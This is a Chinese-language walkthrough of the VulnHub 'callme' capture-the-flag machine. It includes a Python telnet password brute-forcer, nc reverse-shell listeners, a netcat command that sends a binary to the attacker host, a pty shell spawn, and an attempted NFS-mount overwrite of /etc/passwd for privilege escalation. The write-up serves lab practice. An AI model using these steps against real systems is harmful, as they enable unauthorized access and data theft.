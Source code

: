 **靶机下载地址**: https://www.vulnhub.com/entry/callme_1,615/


**环境配置**:
OVA导入 启动后改NAT即可

**靶机ip**: 192.168.136.170

## 信息收集
nmap -A -sC -sV -p- 192.168.136.170

![img](callme/images/image.png)

开了
22 111 2323


**攻击2323端口**
![img](callme/images/image-1.png)


采用telnet进行交互
![img](callme/images/image-2.png)

测试确定用户名为admin

可以尝试爆破密码
brute.py
```py
import socket
import time
import sys

with open('./rockyou.txt') as passwords:
    for (passwd,i) in zip(passwords,range(1,1575)):
        print("\r", end="")
        username = b'admin'
        ip = '192.168.136.170'
        port = 2323
        s = socket.socket()
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send(username + b'\r\n')
        s.recv(1024)
        s.send(passwd.strip().encode() + b'\r\n')
        re = s.recv(1024)
        s.recv(1024)
        sys.stdout.flush()
        time.sleep(0.01)
        if "Wrong password for user admin" not in str(re):
            print("\n[*] Get it! PASSWORD is:")
            print(passwd)
            break
```

```shell
python3 brute.py
```


成功得到密码booboo

![img](callme/images/image-3.png)

猜测这个数字和端口有关

![img](callme/images/image-4.png)

监听端口 爆破等待上线
另开几个terminal
rlwrap nc -lnvp 2025
rlwrap nc -lnvp 2333
rlwrap nc -lnvp 2021
rlwrap nc -lnvp 2112


```py
import socket
import time

username = b'admin'
password = b"booboo"
ip = '192.168.136.170'
port = 2323
while True:
    s = socket.socket()
    s.connect((ip, port))
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(password + b'\r\n')
    re = s.recv(1024)
    print(s.recv(1024))
    s.close()


```


python3 baopo.py

拿到shell，linux机器返回一个windows的shell，猜测是用了wine运行的程序
![img](callme/images/image-5.png)

dir查看发现有个local.txt

type local.txt


同时发现一个staratup程序
查看
![img](callme/images/image-6.png)

发现是wine运行了一个 recallserver.exe
根据wine的运行配置我们很容易找到目录

/home/fox/.wine/drive_c/windows/system32/recallserver.exe

cd ./.wine/drive_c/windows/system32/

尝试在靶机起一个python下载，但是靶机wine给的shell运行不了python

但可以用nc来传文件
靶机:
nc -n 192.168.136.146 5001 < recallserver.exe

kali:
nc -l 5001 > 1.exe

![img](callme/images/image-7.png)

得到登录密码
tutankamenFERILLI

然后ssh登陆fox
python起一个交互shell

python -c 'import pty;pty.spawn("/bin/bash")'


sudo -l
```
User fox may run the following commands on callme:
    (root) /usr/sbin/mount.nfs
```

我们可以将 Kali 本地的 /etc 挂载到靶机的 /etc 从而覆盖 /etc/passwd

在kali上生成密码
```shell
openssl passwd -1 -salt uuuqqq 123qwe
```
$1$uuuqqq$PkR/lj1lVJ9LKHHxAGGgt1

写入/etc/passwd
echo '$1$uuuqqq$PkR/lj1lVJ9LKHHxAGGgt1' >> /etc/passwd

kali上启动nfs
```
apt-get install nfs-kernel-server # 下载server
echo '/etc *(rw,no_root_squash,insecure)' > /etc/exports # 设置/etc允许被挂载
systemctl restart nfs-utils.service
/etc/init.d/nfs-kernel-server restart
```

然后靶机fox挂载
```shell
sudo mount.nfs 192.168.136.146:/etc /etc
```

df查看挂载结果
![img](callme/images/image-8.png)

最后一行成功挂载

然后切换用户提权

emmm 切换不了。。。 


就到这吧  这靶机也没啥意思。。。